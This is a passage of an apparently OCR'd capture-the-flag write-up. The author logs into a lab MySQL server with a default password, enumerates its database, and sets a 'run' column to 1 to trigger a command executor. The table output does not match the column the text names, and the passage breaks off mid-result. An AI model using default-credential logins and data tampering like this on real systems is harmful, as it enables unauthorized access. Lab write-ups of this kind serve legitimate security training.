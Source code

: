 ```
please do not use default creds (IT'S DANGEROUS) <<<<<<<<<---------------------------- READ THIS LINE PLEASE
```
Looks like we found the default password for the mysql user runcheck
Lets try and see if we can use this to connect since port 3306 for mysql is open

#mysql
```
# mysql -u runcheck -h 10.10.187.91 -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 14
Server version: 5.7.32-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
We can infact connect with these default credentials so lets explore

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+
2 rows in set (0.154 sec)

MySQL [(none)]> use runornot;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.153 sec)

MySQL [runornot]> select * from runcheck;
+------+
| db flag |
+------+
|    0 |
+------+
1 row in set (0.153 sec)

MySQL [runornot]>
```
Interesting, looks like the only thing here is a table with a run column set to 0.
Given the CTF flags it seems like this controls a command executor and that this column name is a flag, let go ahead and change this value to 1. 
```
MySQL [runornot]> UPDATE runcheck SET run = 1;
Query OK, 1 row affected (0.155 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [runornot]> select * from runcheck;
+------+
```